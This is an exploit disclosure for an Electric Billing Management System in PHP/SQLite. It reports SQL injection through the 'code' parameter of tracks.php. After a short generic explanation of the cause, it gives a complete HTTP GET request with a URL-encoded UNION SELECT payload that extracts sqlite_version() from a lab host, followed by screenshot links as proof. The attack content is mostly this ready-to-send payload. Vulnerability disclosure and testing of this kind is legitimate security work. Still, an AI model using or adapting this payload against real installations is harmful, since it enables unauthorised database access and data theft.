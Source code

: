 Exploit Title:  electric-billing-management-system tracks.php SQL-inject

Exploit Author: webraybtl@webray.com.cn inc

Vendor Homepage: https://www.sourcecodester.com/php/14967/electric-billing-management-system-php-and-sqlite-free-source-code.html

Software Link: https://www.sourcecodester.com/php/14967/electric-billing-management-system-php-and-sqlite-free-source-code.html

CMSName: electric-billing-management-system

Tested on: Windows, Apache ,Mysql

Description

The reason for the SQL injection vulnerability is that the website application did not verify the validity of the data submitted by the user to the server (such as type, length, business parameter validity, etc.), nor did it effectively filter the data input by the user with special characters, thus directly inputting the user's input into the database for execution. This exceeded the expected result of the original design of the SQL statement. The system did not filter the code parameter content correctly in the tracks.thp file, resulting in SQL injection

    Payload used:

    GET /electric_billing_0/electric_billing/?page=tracks&code=-1%27%20union%20select%201%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%2C11%2C12%2C13%2C14%2Csqlite_version()%3B HTTP/1.1
    Host: 192.168.2.107
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Referer: http://192.168.2.107/electric_billing_0/electric_billing/?page=tracks&code=--1%27%20union%20select%201%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%2C11%2C12%2C13%2C14%2Csqlite_version()%3B
    Connection: close
    Cookie: PHPSESSID=g06tfgab6s50lnkbbi55rl10bb
    Upgrade-Insecure-Requests: 1
    Priority: u=0, i

Proof of Concept

![image](https://github.com/user-attachments/assets/70959e4e-6ceb-413d-a7d5-ec42ddf546e4)
![image](https://github.com/user-attachments/assets/740d99dc-364c-4813-b230-fe3f53be4c9b)
![image](https://github.com/user-attachments/assets/bacfb0e3-64cf-4856-8f53-1cce55ab4574)


